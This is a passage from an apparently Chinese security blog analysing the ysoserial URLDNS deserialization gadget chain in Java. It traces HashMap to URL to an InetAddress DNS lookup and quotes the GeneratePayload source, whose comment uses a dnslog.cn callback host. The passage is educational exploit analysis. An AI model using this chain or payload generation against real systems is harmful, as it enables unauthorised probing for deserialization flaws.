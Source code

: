 首先可以看到，参数对象Key由s.readObject()获取，s是输入的序列化流，证明key是可控的。只要mappings的长度大于0，也就是序列化流不为空就满足利用条件。
[![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613288.png)](https://img2022.cnblogs.com/blog/2670873/202205/2670873-20220514173330508-432040919.png)

### URL

入口类HashMap已经分析完成，具备了利用条件，具体在分析一下URL类的hashCode方法。
![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613695.png)

可以看到当hashCode属性的值为-1时，跳过if条件，执行handler对象的hashCode方法，并将自身URL类的实例作为参数传入。

handler是URLStreamHandler的实例，跟进handler的hashCode方法（URLStreamHandler.java），接收URL类的实例，调⽤getHostAddress⽅法

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613504.png)

继续跟进getHostAddress⽅法，getHostAddress方法中会获取传入的URL对象的IP，也就是会进行DNS请求。
![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304181613420.png)
这⾥ InetAddress.getByName(host) 的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次DNS查询。

整个 URLDNS 的Gadget Chain就清晰了：

```plain
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
```

## URLDNS 序列化过程分析

程序入口在ysoserial.GeneratePayload，打开GeneratePayload.java，找到main方法，代码如下：

```java
public static void main(final String[] args) {
		if (args.length != 2) {
			printUsage();
			System.exit(USAGE_CODE);
		}
    //用打包出来的jar，生成序列化的文件时，ysoserial获取外面传入的参数，并赋值给对应的变量。
		final String payloadType = args[0]; // URLDNS
		final String command = args[1]; //http://64hu68.dnslog.cn
		//接着执行Utils.getPayloadClass("URLDNS");，根据全限定类名ysoserial.payloads.URLDNS，获取对应的Class类对象。
		final Class<? extends ObjectPayload> payloadClass = Utils.getPayloadClass(payloadType);
		if (payloadClass == null) {
			System.err.println("Invalid payload type '" + payloadType + "'");
			printUsage();
			System.exit(USAGE_CODE);
			return; // make null analysis happy
		}
		
		try {
      //通过反射创建Class类对应的对象，URLDNS对象创建完成。
			final ObjectPayload payload = payloadClass.newInstance();
      //然后执行执行URLDNS对象中的getObject方法
			final Object object = payload.getObject(command);
			PrintStream out = System.out;
			Serializer.serialize(object, out);
			ObjectPayload.Utils.releasePayload(payload, object);
		} catch (Throwable e) {
			System.err.println("Error while generating or serializing payload");
			e.printStackTrace();
			System.exit(INTERNAL_ERROR_CODE);
```